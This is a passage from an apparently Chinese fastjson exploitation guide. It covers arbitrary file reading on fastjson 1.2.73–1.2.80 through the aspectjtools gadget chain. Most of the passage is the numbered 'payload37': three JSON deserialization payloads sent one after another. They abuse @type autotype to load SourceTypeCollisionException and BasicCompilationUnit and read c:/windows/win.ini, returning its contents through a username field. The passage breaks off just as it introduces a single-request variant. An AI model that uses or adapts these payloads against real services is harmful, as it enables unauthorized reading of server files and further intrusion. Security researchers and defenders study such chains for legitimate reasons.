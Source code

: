## 四、文件读取

## 4.1 fastjson [1.2.73<=version<=1.2.80]

### 4.1.1 aspectjtools

#### 4.1.1.1 直接回显法

`payload37`（组合拳）：  
可以分三次打：

```plain
{
    "@type":"java.lang.Exception",
    "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
}
```

```plain
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}}
```

```plain
{
    "username":{
        "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
        "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
        "fileName":"c:/windows/win.ini"
    },
    "password":"admin"
}
```

[![](assets/1706959415-59996bd40ce7c4ecde72acd93186e23d.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203208-c16c5918-bb7d-1.jpeg)  
也可以直接利用`JSON.parse`可以解析`[]`的特性直接一次打：
